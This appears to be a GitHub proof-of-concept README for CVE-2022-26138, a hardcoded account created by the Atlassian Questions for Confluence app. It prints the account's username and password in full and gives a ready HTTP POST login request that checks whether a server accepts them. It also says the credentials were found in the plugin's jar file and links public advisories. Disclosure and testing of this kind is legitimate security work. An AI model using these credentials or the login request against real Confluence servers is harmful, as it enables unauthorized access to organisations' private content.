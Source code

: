 # CVE-2022-26138 POC
![questions_cve](https://user-images.githubusercontent.com/105424007/180184601-06a62fae-a5ba-412f-9304-d9c3abb0c400.png)

## Description
```
The Atlassian Questions For Confluence app for Confluence Server and Data Center 
creates a Confluence user account in the confluence-users group with 
the username disabledsystemuser and a hardcoded password. A remote, 
unauthenticated attacker with knowledge of the hardcoded password could
exploit this to log into Confluence and access all content accessible 
to users in the confluence-users group. 
This user account is created when installing versions 2.7.34, 2.7.35, and 3.0.2 of the app.
```

## POC
Hardcoded Credentials: 
 - User: `disabledsystemuser`
 - Password: `disabled1system1user6708`

## Exploitation
```
POST /dologin.action HTTP/1.1
Host: victim.local
Content-Type: application/x-www-form-urlencoded

os_username=disabledsystemuser&os_password=disabled1system1user6708&login=Log+in&os_destination=%2Fvulnerable.action
```
If the server redirects to `/vulnerable.action`, credentials are valid.

## Were did you get the creds from?

The hardcoded credential were plainly laying inside the jar files of the affected plugin

`https://packages.atlassian.com/maven-atlassian-external/com/atlassian/confluence/plugins/confluence-questions/3.0.2/confluence-questions-3.0.2.jar`

## References
* https://www.cvedetails.com/cve/CVE-2022-26138/
* https://confluence.atlassian.com/doc/confluence-security-advisory-2022-07-20-1142446709.html
* https://jira.atlassian.com/browse/CONFSERVER-79483
